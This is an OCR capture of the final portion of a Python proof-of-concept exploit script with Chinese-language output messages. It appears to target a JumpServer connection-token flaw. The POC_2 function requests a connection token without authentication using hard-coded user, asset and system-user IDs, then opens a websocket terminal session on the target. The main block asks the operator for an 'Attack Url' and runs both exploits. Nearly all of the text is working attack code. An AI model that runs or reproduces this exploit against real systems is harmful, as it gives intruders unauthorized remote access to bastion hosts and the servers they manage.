 ```python
                except KeyboardInterrupt:
                    ws.close()
        else:
            print("\033[31m[x] 目标漏洞已修复，无法获取敏感日志信息\033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 目标漏洞已修复，无法获取敏感日志信息,{}\033[0m".format(e))
        sys.exit(0)


def POC_2(target_url, user, asset, system_user):
    if target_url == "" or asset == "" or system_user == "":
        print("\033[31m[x] 请获取 assset 等参数配置\033[0m")
        sys.exit(0)
    data = {"user": user, "asset": asset, "system_user": system_user}
    vuln_url = target_url + "/api/v1/users/connection-token/?user-only=1"
    # vuln_url = target_url + "/api/v1/authentication/connection-token/?user-only=1"

    try:
        response = requests.post(vuln_url, json=data, timeout=5).json()
        print("\033[32m[o] 正在请求：{}\033[0m".format(vuln_url))
        token = response['token']
        print("\033[36m[o] 成功获取Token：{}\033[0m".format(token))
        ws_url = target_url.strip("http://")
        ws_url = "ws://" + ws_url + "/koko/ws/token/?target_id={}".format(token)
        asyncio.get_event_loop().run_until_complete(main_logic(ws_url))

    except Exception as e:
        print("\033[31m[x] 请检查 assset 等参数配置,{}\033[0m".format(e))
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    user = "ed3460eb-3c70-4beb-b631-f8f91c39bdd1"
    asset = "37fce0b0-cc4f-4822-8c33-afdebc888fa7"
    system_user = "da09ddd7-fd3f-46c3-914d-752883a4d950"
    POC_1(target_url)
    POC_2(target_url, user, asset, system_user)
```
